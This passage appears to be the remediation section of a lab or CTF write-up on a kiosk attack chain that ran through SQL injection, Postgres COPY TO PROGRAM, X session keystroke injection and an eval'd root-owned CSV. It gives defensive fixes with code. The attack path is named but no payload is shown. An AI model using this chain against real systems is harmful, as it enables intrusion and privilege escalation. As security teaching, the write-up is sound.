- 

## Remediation

Four separate things had to be true for this chain to work, so there are four fixes. Each one on its own breaks the path.

### 1. The audit query built SQL with string formatting

The root cause is `record_export_evidence` putting `bp.airline_use` straight into the `INSERT` string. The parser checked the mandatory boarding-pass fields but left the trailing airline-use data attacker-controlled when the query was built. Use driver parameters so the SQL structure is fixed and every field is passed as data:

```python
cur.execute(
    "INSERT INTO bp_scan_audit (audit_ref, kiosk_id, ts, raw_len, airline_use) "
    "VALUES (%s, %s, now(), %s, %s)",
    (audit_ref, kiosk_id, len(raw), bp.airline_use),
)
```

Keep the length/format checks, cap the airline-use field to its allowed size, and return a generic error to the client instead of the raw Postgres message. See [OWASP's SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html).

### 2. The database role could run programs on the host

`pg_execute_server_program` is what turned an injection into a shell via `COPY ... TO PROGRAM`. The checkout role only needs table privileges for the sale and audit workflow, so drop that membership:

```sql
REVOKE pg_execute_server_program FROM airsnacks_app;
SELECT pg_has_role('airsnacks_app', 'pg_execute_server_program', 'MEMBER');
-- expected: false
```

The app account shouldn't own the database, be a superuser, or hold the server file read/write roles either. See [PostgreSQL predefined roles](https://www.postgresql.org/docs/current/predefined-roles.html).

### 3. A service account could inject input into the kiosk's X session

The `postgres` context could reach display `:0` and send keystrokes with XTEST, which is how we crossed into `dutyfree-kiosk`. Removing the `Ctrl+Alt+T` binding or `xterm` alone isn't enough — a trusted X client can always inject input into other clients. Keep the X authority cookie private to the kiosk login, drop any broad `xhost +` entries, and don't let service accounts join `:0`:

```bash
# from a service account, this should now be refused:
sudo -u postgres env DISPLAY=:0 xset q
# expected: authorization denied
```

A separately isolated kiosk session, or a Wayland compositor with proper client isolation, is the stronger fix. See the [X.Org security model](https://www.x.org/releases/current/doc/man/man3/XSecurityQueryExtension.3.xhtml).

### 4. A root service treated a writable file as code

The CSV was group-writable by `pos-ops` and the script `eval`'d its first field. Make the file data, not code. First, the kiosk account must not be able to edit or replace the file — note a read-only file inside a writable directory can still be replaced, so fix the directory too:

```bash
sudo chown root:pos-ops /opt/vrs/data /opt/vrs/data/duty-rates.csv
sudo chmod 0750 /opt/vrs/data
sudo chmod 0640 /opt/vrs/data/duty-rates.csv
```

Then delete the `eval`. Parse exactly three fields, allow only known tax classes, and bound the numbers:

```bash
case "$tax_class" in
  SPIRITS|WINE|BEER|SNACKS|CONFECTIONERY|SOFT_DRINKS|WATER) ;;
  *) exit 1 ;;
esac
[[ "$duty_pct" =~ ^(0|[1-9][0-9]{0,2})$ && "$vat_pct" =~ ^(0|[1-9][0-9]{0,2})$ ]] || exit 1
duty["$tax_class"]=$duty_pct   # associative array, no eval
```

Run it under a dedicated unprivileged account and tighten the unit with `NoNewPrivileges=yes`, `ProtectSystem=strict` and `ProtectHome=yes`; check it with `systemd-analyze security vrs-duty-apply.service`. See [BashFAQ 48 — don't use eval](https://mywiki.wooledge.org/BashFAQ/048) and [systemd service sandboxing](https://www.freedesktop.org/software/systemd/man/latest/systemd.exec.html#Sandboxing).

### References

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PostgreSQL — COPY](https://www.postgresql.org/docs/current/sql-copy.html) and [predefined roles](https://www.postgresql.org/docs/current/predefined-roles.html)
- [X.Org client security model](https://www.x.org/releases/current/doc/man/man3/XSecurityQueryExtension.3.xhtml)
- [BashFAQ 48 — eval](https://mywiki.wooledge.org/BashFAQ/048) · [systemd exec sandboxing](https://www.freedesktop.org/software/systemd/man/latest/systemd.exec.html#Sandboxing)
- [IATA Bar Coded Boarding Pass (BCBP) standard](https://www.iata.org/en/programs/passenger/common-use/)
